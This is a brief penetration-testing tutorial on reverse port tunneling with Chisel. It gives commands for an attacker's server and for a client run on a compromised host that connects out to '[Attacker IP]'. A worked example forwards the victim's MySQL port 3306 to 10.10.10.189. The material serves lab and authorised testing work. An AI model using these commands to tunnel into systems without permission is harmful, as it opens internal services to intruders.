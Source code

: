 # Introduction

Chisel is an open-source application for port tunneling. You can get it from https://github.com/jpillora/chisel. Clone the repo and follow the installation instructions.

In order to port tunnel with chisel, you need to have a copy of the binary on both the attacking and the compromised machines.

# Creating a reverse tunnel

Run the following command on the attacking machine:

```bash
chisel server -p [Listen Port] --reverse &
```

This will setup a chisel server on `Listen Port`.

On the compromised systenm run:

```bash
chisel client [Attacker IP]:[Listen Port] R:[Local Host]:[Local Port]:[Remote Host]:[Remote Port] &
```

This will endeavour to connect to a chisel server at the specified `Attacker IP` and `Listen Port`. Once it has connected to the remote chisel server, the chisel server will open `Remote Port` on the `Remote Host` and tunnel it to the `Local Port` of `Local Host`. From now on, any traffic sent to `Remote Port` on the `Remote Host` will be forwarded to the `Local Port` of `Local Host`. 

Chisel also defines some defaults for these values, which means you can omit some of them:

`Local Host` - 0.0.0.0
`Remote Host` - 0.0.0.0 (server localhost)

As an example, suppose you start a chisel server on your attacking machine (10.10.10.189) on port 1337, and want to gain access to port 3306 on the compromised machine. On the attacking machine you run:

```bash
chisel server -p 1337 --reverse &
```

On the compromised system you will run:

```bash
chisel client 10.10.10.189:1337 R:localhost:3306:localhost:31337 &
```

The above basically translates to "Forward any traffic intended for port 31337 localhost on my attacking machine to port 3306 on the localhost of the compromised system".